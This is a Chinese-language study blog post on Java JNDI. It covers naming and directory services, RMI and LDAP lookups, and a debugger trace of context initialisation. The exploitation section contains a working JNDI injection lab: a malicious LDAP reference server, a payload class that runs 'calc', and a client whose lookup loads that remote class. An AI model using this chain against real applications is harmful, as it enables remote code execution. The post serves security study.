依旧先学基础，毕竟JNDI的内容比较多

md本来想翻一下官方文档的，结果官方文档没了，好神奇

# 0x01-1 什么是 jndi

JNDI（Java Naming and Directory Interface，Java命名和目录接口）是SUN公司提供的一种标准的Java命名系统接口。JNDI提供统一的客户端API，并由管理者将JNDI API映射为特定的**命名服务**和**目录服务**，为开发人员查找和访问各种资源提供了统一的通用接口。简单来说，开发人员通过合理的使用JNDI，能够让用户通过统一的方式访问获取网络上的各种资源和服务。

JNDI主要提供以下四种服务：

- LDAP：轻量级目录访问协议
- 通用对象请求代理架构(CORBA)；通用对象服务(COS)名称服务
- Java 远程方法调用(RMI) 注册表
- DNS 服务



总的来说：JNDI提供了一个统一的接口来访问各种命名和目录服务，比如DNS、LDAP、RMI注册表、CORBA命名服务等。它允许Java应用程序通过名称来查找和访问数据和对象。

# 0x01-2 什么是命名服务

简单来说就是通过名称来查找实际对象的服务。一个名称对应一个对象，在命名服务中，并不需要关注对象的具体细节，只需要关注对象映射的名称即可。比如我们的RMI协议，通过名称来查找并调用具体的远程对象方法，亦或者是DNS协议，通过域名来查找具体的IP地址。这些都可以叫做命名服务。

举个生活中的例子，比如我们的联系人电话簿，一个名字（名称）对应一个电话（对象），我们可以根据名字去找到对应的电话，此时这个电话簿就是命名服务。

# 0x01-3 什么是目录服务

其实就是命名服务的plus版，它不仅限于在名称上查找对象，还能给对象附加属性（Attributes），通过属性的值进行查找对象

**常见的目录服务：**

- **LDAP** (Lightweight Directory Access Protocol) - 最常用的目录服务协议
- **Active Directory** (微软) - Windows域环境中的目录服务
- **Apache Directory Server**
- **OpenLDAP**

依旧是上面的例子，如果我们给电话簿中的联系人加上一些属性，例如某某公司某某员工，此时又可以多出一种检索的方法。

# 0x02 JNDI 架构

JNDI 架构主要包括两部分，即Java的应用层接口和SPI，如图所示



SPI（Service Provider Interface），即服务供应接口，主要作用是为底层的具体目录服务提供统一接口，从而实现目录服务的可插拔式安装。

# 0x03 JNDI的几个包

基于上面所提到的JNDI的四种服务，可以对应四个包外加一个主包

- `javax.naming`：主要用于命名操作，它包含了命名服务的类和接口，该包定义了Context接口和InitialContext类
- `javax.naming.directory`：主要用于目录操作，它定义了DirContext接口和InitialDir-Context类
- `javax.naming.event`：在命名目录服务器中请求事件通知
- `javax.naming.ldap`：提供LDAP服务支持
- `javax.naming.spi`：允许动态插入不同实现，为不同命名目录服务供应商的开发人员提供开发和实现的途径，以便应用程序通过JNDI可以访问相关服务

`javax.naming`是JNDI的核心包，包含访问命名服务的基本类和接口，比如Context命名上下文接口，Name通用名称的接口，Bindings名称到对象的绑定等，其中**InitialContext** 为初始化上下文的类

举个简单的例子

```java
import javax.naming.*;

Context ctx = new InitialContext();
Object obj = ctx.lookup("myObject");
ctx.bind("newName", myObject);
ctx.unbind("oldName");
ctx.close();
```

一般的应用也就是先 `new InitialContext()`，再调用 API 即可

Jndi 在对不同服务进行调用的时候，会去调用 xxxContext 这个类，比如调用 RMI 服务的时候就是调的 RegistryContext，这一点是很重要的

# 0x04 JNDI 的利用方式

## JNDI+RMI

### 测试代码

JDK版本为`JDK8u_65`

首先肯定是本地需要起一个JNDI的RMI服务

RMI之前没细学过，先参考一下drun1baby师傅的文章：https://drun1baby.top/2022/07/19/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9801-RMI%E5%9F%BA%E7%A1%80/

写一个RMI远程接口

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface RemoteObj extends Remote {

    public String sayHello(String words) throws RemoteException;
}
```

- 此远程接口要求作用域为 public；
- 继承 Remote 接口；
- 让其中的接口方法抛出异常

然后写接口的实现类

```java
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class RemoteObjImpl extends UnicastRemoteObject implements RemoteObj {

    public RemoteObjImpl() throws RemoteException {
//        UnicastRemoteObject.exportObject(this, 0);// 如果不能继承 UnicastRemoteObject 就需要手工导出
    }

    @Override
    public String sayHello(String words) throws RemoteException{
        String InputWords = words.toUpperCase();
        System.out.println(InputWords);
        return InputWords;
    }
}

```

- 实现远程接口
- 继承 UnicastRemoteObject 类，用于生成 Stub（存根）和 Skeleton（骨架）。 
- 构造函数需要抛出一个RemoteException错误
- 实现类中使用的对象必须都可序列化，即都继承`java.io.Serializable`

然后写JNDI的RMI服务端

```java
import javax.naming.InitialContext;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIRMIServer {
    public static void main(String[] args) throws Exception {
        //初始化上下文
        InitialContext initialContext = new InitialContext();
        Registry registry = LocateRegistry.createRegistry(1099);
        //使用JNDI API进行绑定rmi://localhost:1099/remoteObj
        initialContext.rebind("rmi://localhost:1099/remoteObj", new RemoteObjImpl());
    }
}
```

运行启动服务端

接着写客户端进行RMI调用

```java
import javax.naming.InitialContext;

public class JNDIRMIClient {
    public static void main(String[] args) throws Exception {
        InitialContext initialContext = new InitialContext();
        RemoteObj remoteObj = (RemoteObj) initialContext.lookup("rmi://localhost:1099/remoteObj");
        System.out.println(remoteObj.sayHello("Hello World"));
    }
}
```



需要注意客户端也同样需要实现相同接口并且包名和RMI Server端相同，不然会报错`no security manager: RMI class loader disabled`

### lookup代码分析

把断点打在`javax.naming.InitialContext#lookup(java.lang.String)`



继续跟进里面的lookup方法，来到`com.sun.jndi.toolkit.url.GenericURLContext#lookup(java.lang.String)`



这里的getRootURLContext可以跟进去看一下，了解一下这里的上下文解析，跟进来到`com.sun.jndi.url.rmi.rmiURLContext#getRootURLContext`

```java
    protected ResolveResult getRootURLContext(String var1, Hashtable<?, ?> var2) throws NamingException {
        //检查是否是rmi:格式的URL地址
        if (!var1.startsWith("rmi:")) {
            throw new IllegalArgumentException("rmiURLContext: name is not an RMI URL: " + var1);
        } else {
            String var3 = null;
            int var4 = -1;
            String var5 = null;
            int var6 = 4;
            //检查rmi:后是否是"//"
            if (var1.startsWith("//", var6)) {
                var6 += 2;
                //查找下一个"/"
                int var7 = var1.indexOf(47, var6);
                if (var7 < 0) {
                    var7 = var1.length();
                }

                //支持IPv6地址，查找是否rmi:后是否存在"["
                if (var1.startsWith("[", var6)) {
                    //查找IPv6地址结尾"]"
                    int var8 = var1.indexOf(93, var6 + 1);
                    if (var8 < 0 || var8 > var7) {
                        throw new IllegalArgumentException("rmiURLContext: name is an Invalid URL: " + var1);
                    }

                    var3 = var1.substring(var6, var8 + 1);//提取IPv6地址
                    var6 = var8 + 1;
                } else {
                    //查找":"
                    int var14 = var1.indexOf(58, var6);
                    int var9 = var14 >= 0 && var14 <= var7 ? var14 : var7;
                    if (var6 < var9) {
                        var3 = var1.substring(var6, var9);//提取主机名localhost
                    }

                    var6 = var9;
                }

                if (var6 + 1 < var7) {
                    if (!var1.startsWith(":", var6)) {
                        throw new IllegalArgumentException("rmiURLContext: name is an Invalid URL: " + var1);
                    }

                    ++var6;// 跳过 ':'
                    var4 = Integer.parseInt(var1.substring(var6, var7));//提取端口号并转化成int类型
                }

                var6 = var7;
            }

            if ("".equals(var3)) {
                var3 = null;// 空字符串转为null，使用默认localhost
            }

            if (var1.startsWith("/", var6)) {
                ++var6;
            }

            if (var6 < var1.length()) {
                var5 = var1.substring(var6);//提取远程对象名称
            }

            CompositeName var13 = new CompositeName();
            if (var5 != null) {
                var13.add(var5);//将对象名添加到复合名称中
            }

            RegistryContext var15 = new RegistryContext(var3, var4, var2);//创建RMI注册表上下文
            return new ResolveResult(var15, var13);//返回ResolveResult，包含上下文和
        }
    }
```

是JNDI RMI URL解析器，负责解析RMI URL并创建相应的注册表上下文。最后会返回ResolveResult



这里会调用setter方法设置`remainingName`字段，但返回后就会调用getter取出resolvedObj和remainingName字段，也就是注册上下文和远程对象



随后就再次调用了lookup，并且是RegistryContext类的，也就是 RMI 对应 `lookup()` 方法的类

其实从这里就可以判断出来其实**JNDI调用RMI服务的时候本质上也是在调用RMI原生的lookup，尽管API是JNDI的**



## JNDI+LDAP

LDAP（Lightweight Directory Access Protocol ，轻型目录访问协议）是一种目录服务协议，运行在TCP/IP堆栈之上。

LDAP 既是一类服务，也是一种协议，定义在 [RFC2251](http://www.ietf.org/rfc/rfc2251.txt)([RFC4511](https://datatracker.ietf.org/doc/rfc4511/)) 中，是早期 X.500 DAP (目录访问协议) 的一个子集，因此有时也被称为 **X.500-lite**。

目录服务作为一种特殊的数据库，用来保存描述性的、基于属性的详细信息。和传统数据库相比，最大的不同在于目录服务中数据的组织方式，它是一种有层次的树形结构，因此它有优异的读性能，但写性能较差，并且没有事务处理、回滚等复杂功能，不适于存储修改频繁的数据。

在LDAP中，我们是通过目录树来访问一条记录的，目录树的结构如下

```
dn ：一条记录的详细位置
dc ：一条记录所属区域    (哪一颗树)
ou ：一条记录所属组织    （哪一个分支）
cn/uid：一条记录的名字/ID   (哪一个苹果名字)
...
LDAP目录树的最顶部就是根，也就是所谓的“基准DN"。
```

假设你要树上的一个苹果（一条记录），你怎么告诉园丁它的位置呢？当然首先要说明是哪一棵树（dc，相当于MYSQL的DB），然后是从树根到那个苹果所经过的所有“分叉”（ou），最后就是这个苹果的名字（uid，相当于MySQL表主键id）。

当然，我们也可以使用LDAP服务来存储Java对象，如果我们此时能够控制JNDI去访问存储在LDAP中的Java恶意对象，那么就有可能达到攻击的目的。LDAP能够存储的Java对象如下

- Java 序列化
- JNDI的References
- Marshalled对象
- Remote Location

### 测试代码

需要导入ldap的依赖

```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
    <scope>test</scope>
</dependency>
```

test表示这个依赖只能在测试代码中使用，如果要所有阶段都能使用的话需要换成compile

首先写服务端的代码

**LdapServer**

```java
package LDAPTest;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class LdapServer {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8888/#EXP"};
        int port = 9999;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

**远程恶意类EXP.java**

```java
package LDAPTest;

public class EXP {
    public EXP()  {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

客户端代码

```java
package LDAPTest;

import RMITest.RemoteObj;

import javax.naming.InitialContext;

public class LdapClient {
    public static void main(String[] args) throws Exception {
        InitialContext initialContext = new InitialContext();
        RemoteObj remoteObj = (RemoteObj) initialContext.lookup("ldap://localhost:9999/EXP");
    }
}
```

将恶意类编译后用python启动http服务，端口是8888，然后分别运行服务端和客户端代码



基于上面我们继续来深入JNDI的工作流程

# 0x05 JNDI的工作流程

## 初始化Context的方法

初始化上下文Context通常是用InitialContext类进行的，我们看看InitialContext类的构造函数

```java
    //构建一个默认的初始上下文
	public InitialContext() throws NamingException {
        init(null);
    }

	//构造一个初始上下文，并选择不初始化它。
	protected InitialContext(boolean lazy) throws NamingException {
        if (!lazy) {
            init(null);
        }
    }

	//使用提供的环境变量初始化上下文。
    public InitialContext(Hashtable<?,?> environment)
        throws NamingException
    {
        if (environment != null) {
            environment = (Hashtable)environment.clone();
        }
        init(environment);
    }
```

第一个很容易理解，就是我们刚刚的例子，重点看看第三个，第三个构造函数可以传入Hashtable类型的环境变量，常见的属性有：

- `INITIAL_CONTEXT_FACTORY`用于指定使用哪个工厂类来创建初始上下文（InitialContext），不同的命名服务需要不同的工厂，例如RMI服务需要`com.sun.jndi.rmi.registry.RegistryContextFactory`进行初始化上下文
- `PROVIDER_URL`用于指定命名服务提供者的**地址和位置**，例如RMI服务就是`rmi://localhost:1099`

基于这种方式，我们可以这样进行服务端的构造

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.Hashtable;

public class JNDIRMIServer {
    public static void main(String[] args) throws Exception {

        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
        InitialContext initialContext = new InitialContext(env);

        Registry registry = LocateRegistry.createRegistry(1099);
        initialContext.rebind("remoteObj", new RemoteObjImpl());
        System.out.println("Server started");
    }
}
```

重绑定中只写对象名，就会使用PROVIDER_URL中的地址

接下来我们看看具体的初始化细节

### 初始化代码分析

打好断点后调试



首先就是调用构造函数，通过我们传入的env进行init操作



如果配置了INITIAL_CONTEXT_FACTORY工厂类就会进入`InitialContext#getDefaultInitCtx`



因为我们是传入的env，所以不是默认配置，gotDefault为false，进入`NamingManager#getInitialContext`

```java
    public static Context getInitialContext(Hashtable<?,?> env)
        throws NamingException {
        InitialContextFactory factory;

        InitialContextFactoryBuilder builder = getInitialContextFactoryBuilder();
        if (builder == null) {
            // No factory installed, use property
            // Get initial context factory class name

            String className = env != null ?
                (String)env.get(Context.INITIAL_CONTEXT_FACTORY) : null;
            if (className == null) {
                NoInitialContextException ne = new NoInitialContextException(
                    "Need to specify class name in environment or system " +
                    "property, or as an applet parameter, or in an " +
                    "application resource file:  " +
                    Context.INITIAL_CONTEXT_FACTORY);
                throw ne;
            }

            try {
                factory = (InitialContextFactory)
                    helper.loadClass(className).newInstance();
            } catch(Exception e) {
                NoInitialContextException ne =
                    new NoInitialContextException(
                        "Cannot instantiate class: " + className);
                ne.setRootCause(e);
                throw ne;
            }
        } else {
            factory = builder.createInitialContextFactory(env);
        }

        return factory.getInitialContext(env);
    }
```

从环境变量中获取工厂类，并且会反射动态加载并实例化 InitialContextFactory，最终调用的其实是`RegistryContextFactory#getInitialContext()`方法，通过我们的设置工厂类来初始化上下文Context。

所以到这里我们就能看出JNDI是如何进行初始化操作的了，会根据是否有设置`INITIAL_CONTEXT_FACTORY`属性来判断将上下文初始化为何种类型，进而调用该类型上下文所对应的服务。



然后我们来看JNDI是如何处理我们传入的URL远程服务地址和获取服务资源的

进入`RegistryContextFactory#getInitialContext()`会调用到`URLToContext(getInitCtxURL(var1), var1);`

先看到`getInitCtxURL`函数



尝试获取属性`java.naming.provider.url`的值，如果没有就返回`rmi:`前缀，然后再做后续处理

接着看到`URLToContext`

```java
    private static Context URLToContext(String var0, Hashtable<?, ?> var1) throws NamingException {
        //创建 RMI URL 上下文工厂
        rmiURLContextFactory var2 = new rmiURLContextFactory();
        //通过工厂获取对象实例
        Object var3 = var2.getObjectInstance(var0, (Name)null, (Context)null, var1);
        //检查返回的对象是否是 Context，是就返回，否则抛出异常
        if (var3 instanceof Context) {
            return (Context)var3;
        } else {
            throw new NotContextException(var0);
        }
    }
```

跟进到getObjectInstance获取对象实例中

```java
    public Object getObjectInstance(Object var1, Name var2, Context var3, Hashtable<?, ?> var4) throws NamingException {
        if (var1 == null) {
            return new rmiURLContext(var4);
        } else if (var1 instanceof String) {
            return getUsingURL((String)var1, var4);
        } else if (var1 instanceof String[]) {
            return getUsingURLs((String[])var1, var4);
        } else {
            throw new ConfigurationException("rmiURLContextFactory.getObjectInstance: argument must be an RMI URL String or an array of them");
        }
    }
```

跟到`rmiURLContextFactory#getUsingURL()`中



发现这里会实例化一个rmiURL上下文并调用了lookup方法，随后进入`com.sun.jndi.rmi.registry.RegistryContext#lookup(javax.naming.Name)`

